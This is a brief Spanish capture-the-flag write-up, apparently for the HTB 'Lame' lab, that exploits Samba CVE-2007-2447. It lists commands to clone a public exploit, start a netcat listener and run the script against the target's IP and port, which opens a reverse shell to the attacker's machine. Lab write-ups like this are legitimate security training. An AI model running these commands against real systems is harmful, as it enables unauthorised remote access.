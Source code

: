 # Enumeracion
No encontramos una forma valida de hacerla

------------
# Explotacion

[Exploit hecho por amriunix](https://github.com/amriunix/CVE-2007-2447)(Para python2.7)

Clonamos el repositorio en nuestra maquina ``git clone https://github.com/amriunix/CVE-2007-2447.git``
Instalamos la libreria pysmb con el comando ``pip install pysmb``

Entramos a la carpeta del repositorio y solamente nos falta ejecutar el exploit mientras estamos en escucha con [[nc -nlvp 443]]
```
python2.7 usermap_script.py IpMaquinaVictima PuertoMaquinVictima IpDeNuestraMaquina PuertoDeNuestraMaquina
python2.7 usermap_script.py 10.10.10.3 445 10.10.16.10 443
```
![[Lame10.png]]
